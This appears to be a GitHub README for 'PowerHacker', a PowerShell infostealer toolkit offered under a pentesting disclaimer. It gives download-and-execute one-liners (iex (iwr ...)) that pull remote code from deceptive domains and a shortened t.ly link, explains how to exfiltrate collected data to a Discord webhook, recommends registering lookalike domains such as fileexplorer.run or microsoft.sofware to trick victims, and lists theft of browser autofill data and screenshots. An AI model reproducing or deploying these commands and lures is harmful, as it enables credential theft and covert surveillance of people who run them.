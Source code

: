 
# PowerHacker :zap: README

Welcome to PowerHacker, a PowerShell-based toolkit designed for penetration testers and cybersecurity professionals. PowerHacker prefers utilizing valuable Top-Level Domains (TLDs) and the setup of subdomains to facilitate efficient red team operations and security assessments.

- A simple command like `iex (iwr calculator.run)` is enough to give full control over a windows system. 

## :lock: Security Notice

Security and ethical use are paramount. PowerHacker is intended for **authorized penetration testing** and/or **educational purposes only**. Misuse of PowerHacker may result in legal consequences. Ensure you have explicit permission to test target systems with PowerHacker.

- Safe test scripts: Try run either of these in a command prompt or powershell respectively:

1. In Powershell:
  - `iex (iwr t.ly/YUz2A)`

2. In CMD or press Windows key + R:
  - `powershell iex (iwr t.ly/YUz2A)`

## :gear: Setup

To leverage PowerHacker for your assessments:

1. Clone the repository:
    ```
    git clone https://github.com/pentestfunctions/powerhacker.git
    ```

2. Navigate to the PowerHacker directory:
    ```
    cd powerhacker
    ```

3. Update the `$WebhookUrl` in the scripts to point to your Discord webhook for data exfiltration. To get a Discord webhook URL:
    - Create a Discord server or use an existing one.
    - Go to Server Settings > Integrations.
    - Click on "Webhooks" and then "New Webhook".
    - Customize your webhook, copy the URL, and use it in the script.

4. Upload the ps1 file to your github account.

5. Register a domain for best outcome, for example:
   - `fileexplorer.run`
   - You can also then add subdomains such as `windows.fileexplorer.run`
   - Some other good TLD ideas: `software` such as `microsoft.sofware` or `calculator.run`

## :rocket: Usage

PowerHacker simplifies the redirection of subdomains to your raw GitHub page containing the PowerShell code. To execute, use:

```
iex (iwr windows.fileexplorer.run)
```

This command downloads and executes the script, uploading all collected data to the specified Discord webhook.

## :warning: Features

- **TakeScreenshot**: Captures the current screen.
- **Convert-JsonToWav**: Converts JSON data to WAV format.
- **Get-BrowserData-AutoFill**: Extracts autofill information from browsers.
- **Comprehensive System Info**: Collects detailed system information, including OS version, build number, and more.

## :key: Emphasis on Security

- Always ensure you are in compliance with all applicable laws and regulations.
- Use PowerHacker responsibly to enhance security posture, not to undermine it.
- Verify the integrity and confidentiality of the data collected during your assessments.

## :question: Support

For questions, issues, or feature requests, use GitHub Issues within the repository.

## :memo: Contributing

Contributions to PowerHacker are welcome. Please submit pull requests with clear descriptions of changes and enhancements.

## :balance_scale: License

PowerHacker is released under [MIT License](LICENSE). By using PowerHacker, you agree to the terms of the license and acknowledge the tool's intended purpose for legal, authorized cybersecurity assessments only.
